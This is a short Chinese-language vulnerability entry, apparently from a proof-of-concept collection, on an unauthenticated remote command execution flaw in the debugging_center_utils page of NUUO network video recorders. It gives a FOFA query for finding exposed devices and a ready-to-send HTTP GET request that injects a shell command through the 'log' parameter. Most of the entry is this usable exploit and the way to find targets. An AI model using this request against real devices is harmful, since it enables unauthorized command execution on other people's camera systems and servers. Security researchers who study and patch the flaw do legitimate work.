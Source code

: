 # NUUO摄像机debugging_center_utils远程代码执行漏洞

NUUO摄像头是中国台湾NUUO公司旗下的一款网络视频记录器，NUUO摄像头debugging_center_utils存在未授权命令执行漏洞，攻击者可以获取服务器权限

## fofa

```javascript
body="www.nuuo.com/eHelpdesk.php"
```

## poc

```javascript
GET /__debugging_center_utils___.php?log=;id HTTP/1.1
Host: 
Priority: u=0, i
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:135.0) Gecko/20100101 Firefox/135.0
```

![图片](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202502201149700.png)

## 漏洞来源

- https://mp.weixin.qq.com/s/uC-qg8DN8MxNGPKaV3Utgw